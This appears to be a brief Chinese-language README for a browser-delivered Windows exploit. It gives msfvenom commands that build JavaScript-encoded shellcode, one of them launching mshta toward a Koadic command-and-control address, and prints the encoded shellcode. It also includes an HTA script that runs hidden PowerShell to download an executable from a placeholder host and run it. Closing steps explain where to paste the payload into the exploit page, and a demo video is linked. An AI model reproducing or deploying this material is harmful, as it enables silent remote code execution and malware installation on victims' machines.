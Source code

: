 

`msfvenom -p windows/exec cmd='mshta koadic 的地址' -f js_le exitfunc=thread -a x86`

`测试payload`

       msfvenom -p windows/exec cmd=calc.exe -f js_le exitfunc=thread -a x86

    %ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u575 2%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u6a5d%u8d01%ub285%u0000%u5000%u3168%u6f8b%uff87%ubbd5%u1de0%u0a2a%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff%u6163%u636c%u652e%u6578%u4100

`hta code`
    
    <script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://xxx.com/xxx.exe\', \'c:/windows/temp/xxx.exe\'); c:/windows/temp/xxx.exe', 0);window.close();
    </script>
    
    
    
    
    生成后打开html文件夹更改166行左右的shellcode位置 填写msf生成的payload   
    自己看着改
    
    
    演示视频地址：https://pan.baidu.com/s/1eTezME-wh7_qNJaveNOyaw 密码：s0kq
